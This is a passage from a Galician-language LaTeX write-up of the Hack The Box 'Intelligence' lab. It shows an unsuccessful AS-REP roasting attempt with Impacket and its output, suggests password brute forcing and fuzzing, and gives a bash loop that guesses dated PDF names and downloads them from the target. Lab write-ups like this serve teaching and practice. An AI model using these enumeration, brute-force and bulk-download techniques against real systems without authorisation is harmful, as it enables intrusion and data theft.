 \documentclass[a4paper]{article}
\newcommand{\ipTarget}{10.10.10.248}
\begin{document}
Entón si, temos 2 usuarios kerberos e non temos contrasinais probamos o ASREPROASTAttack:
        \begin{lstlisting}[language=Bash, caption=Enumeración usuarios kerberos: ASREPROASTAttack]
$ GetNPUsers.py intelligence.htb/ -no-pass -usersfile users-potenciais-kerberos.txt
Impacket v0.10.1.dev1+20220606.123812.ac35841f - Copyright 2022 SecureAuth Corporation
[-] User William.Lee doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jose.Williams doesn't have UF_DONT_REQUIRE_PREAUTH set
\end{lstlisting}
Pero non hai sorte.

\subsection{Alternativas}
Como co anterior non houbo sorte probamos outras opcións como as seguintes:
\begin{itemize}
        \item Cos usuarios testeados probar sesións sen autenticación para rpcclient
        \item Intentar buscar por forza bruta contrasinais para eses usuarios con crackmapexec
        \item Fuzzing: wfuzz, gobuster, dirbuster...
\end{itemize}

\subsection{Descargar pdfs}
Pero seguimos sen ter éxito, entón probamos a seguinte idea: Se en \textit{documents} existen 2 documentos con \textbf{\emph{data}-upload.pdf} existirán máis? Entón, xeramos un script para logo intentar descargar os arquivos:

        \begin{lstlisting}[language=Bash, caption=script Bash]
$ cat script.sh
for i in $(seq 2020 2022)
do
  for j in $(seq 1 12)
  do
    [ $j -le 9 ] && j=$(echo 0$j)
    for k in $(seq 1 31)
    do
      [ $k -le 9 ] && k=$(echo 0$k)
      echo $i-$j-$k
    done
  done
done | tee -a days.txt\end{lstlisting}


        \begin{lstlisting}[language=Bash, caption=Descargar documentos]
$ mkdir uploads;while read line
do
  wget http://¬\ipTarget¬/documents/${line}-upload.pdf && wget http://¬\ipTarget¬/documents/${line}-upload.pdf -O uploads/${line}-upload.pdf 
done < days.txt\end{lstlisting}
\end{document}
